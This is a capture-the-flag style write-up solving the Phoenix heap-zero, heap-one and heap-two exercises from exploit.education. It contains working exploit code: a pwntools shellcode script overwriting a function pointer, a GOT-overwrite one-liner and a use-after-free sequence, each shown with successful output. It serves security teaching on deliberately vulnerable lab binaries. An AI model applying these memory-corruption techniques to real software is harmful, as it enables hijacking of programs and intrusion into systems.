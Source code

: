 # Heap

There is multiple way of controlling the flow of a program, by overriding some part of the memory. In this section we will focus on heap memory overflow.

By example, you can override the content of the heap, to override variable or the GOT.

To got further, you have to understand the structure on how malloc manage the heap allocation: https://sourceware.org/glibc/wiki/MallocInternals

For those examples, you will need to install Phoenix: https://exploit.education/phoenix/getting-started/

## Heap Zero

### Exercise

Description: https://exploit.education/phoenix/heap-zero/

### Solution

We need to know where the function `winner` is implemented: `0x400abd`

```
$ gdb -batch -ex 'file /opt/phoenix/amd64/heap-zero' -ex 'disassemble winner'
Dump of assembler code for function winner:
   0x0000000000400abd <+0>:     push   %rbp
...
```

The function pointer gets overrided by `NNNNOOO`:
```
$ ./heap-zero AAAAAABBBBBBCCCCCCDDDDDDEEEEEEFFFFFFGGGGGGHHHHHHIIIIIIJJJJJJKKKKKKLLLLLLMMMMMMNNNNNNOOOOOOOO
Welcome to phoenix/heap-zero, brought to you by https://exploit.education
data is at 0x7ffff7ef5010, fp is at 0x7ffff7ef5060, will be calling 0x4f4f4f4f4e4e4e4e
Segmentation fault (core dumped)
```

> Sadly, the 64bit version of this challenge, is more complicated, as addresses contain null byte, preventing strcpy to proceed with our redirection.

To overcome this issue, we will inject a small binary shellcode, in our buffer, that jump to the correct address:

```asm
push 0x1010101 ^ 0x400abd
xor dword ptr [rsp], 0x1010101
ret
```

We need to override the pointer address to the begining of our data buffer, where our shellcode is injected:

```py
# You need to install pwntools, to import pwnlib
import pwnlib
import struct

BUFFER = 0x7ffff7ef5010
WINNER = 0x400abd

pwnlib.context.arch = 'amd64'
shellcode = pwnlib.shellcraft.amd64.push(WINNER)
shellcode += pwnlib.shellcraft.amd64.ret()

shellcode = pwnlib.asm.asm(shellcode, arch='amd64')

buf = shellcode + b"." * (80 - len(shellcode))
buf += struct.pack("<Q", BUFFER)

print(buf)
```

We send the payload to our command line:
```
./heap-zero `python ~/heap-zero.py`
Welcome to phoenix/heap-zero, brought to you by https://exploit.education
data is at 0x7ffff7ef5010, fp is at 0x7ffff7ef5060, will be calling 0x7ffff7ef5010
Congratulations, you have passed this level
```

## Heap One

### Exercise

Description: https://exploit.education/phoenix/heap-one/

### Solution

> For this exploit, we will operate on the x86 version of the binary due to limitation we encounter on writing null bytes through strcpy.

```
$ gdb ./heap-one
(gdb) r AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOO 0000
Starting program: /opt/phoenix/amd64/heap-one AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOO 0000

Program received signal SIGSEGV, Segmentation fault.
0x00007ffff7d85c06 in stpcpy () from /opt/phoenix/x86_64-linux-musl/lib/ld-musl-x86_64.so.1
(gdb) x/2wx $esp
0xffffd524:     0xf7ffb000      0x46464646
```
We notice that the program, tries to write `argv[2]` at `0x46464646` (`FFFF`)).
If we could override the GOT (for the `puts` call), with an address we control, we could redirect the control flow.

```
(gdb) disassemble main
Dump of assembler code for function main:
...
   0x08048883 <+174>:   call   0x80485b0 <puts@plt>
...
(gdb) disassemble 0x80485b0
Dump of assembler code for function puts@plt:
   0x080485b0 <+0>:     jmp    DWORD PTR ds:0x804c140
   0x080485b6 <+6>:     push   0x28
   0x080485bb <+11>:    jmp    0x8048550
End of assembler dump.
(gdb) disassemble winner
Dump of assembler code for function winner:
   0x0804889a <+0>:     push   ebp
...
End of assembler dump.
```

It seems `i2->name` could be assigned to `0x804c140` (GOT entry, for `puts`), so that the next puts call, will redirect it to the winner function (`0x0804889a`).

Let's give it a try:

```sh
$ ./heap-one $(echo -e "AAAABBBBCCCCDDDDEEEE\x40\xc1\x04\x08") $(echo -e "\x9a\x88\x04\x08")
Congratulations, you've completed this level @ 1592169438 seconds past the Epoch
```

## Heap Two

### Exercise

Description: https://exploit.education/phoenix/heap-two/

### Solution

This challenge, rely on the fact that a memory segment, that was free-ed, is not dereferenced, and can still be accessible.

After executing the `reset` command: `auth->auth` is still pointing in memory to the adress: `0x600e40 + 0x20`.

By realocating some memory (at the same place, using the `service` command, you override the previously freeed `auth->auth` variable)

If you execute `login`, you get connected, because the service name get's written on that exact same memory segment.

```
ange@paradize:/opt/phoenix/i486$ ./heap-two
$ ./heap-two
Welcome to phoenix/heap-two, brought to you by https://exploit.education
[ auth = 0, service = 0 ]
auth .
[ auth = 0x600e40, service = 0 ]
reset
[ auth = 0x600e40, service = 0 ]
service .
[ auth = 0x600e40, service = 0x600e40 ]
login
you have logged in already!
[ auth = 0x600e40, service = 0x600e40 ]
```

## Heap Three

### Exercise

Description: https://exploit.education/phoenix/heap-three/

### Solution

The solution is well described in Lucas Bader's blog, I highly encourage you to read it: https://www.lucas-bader.com/ctf/2019/05/02/heap3
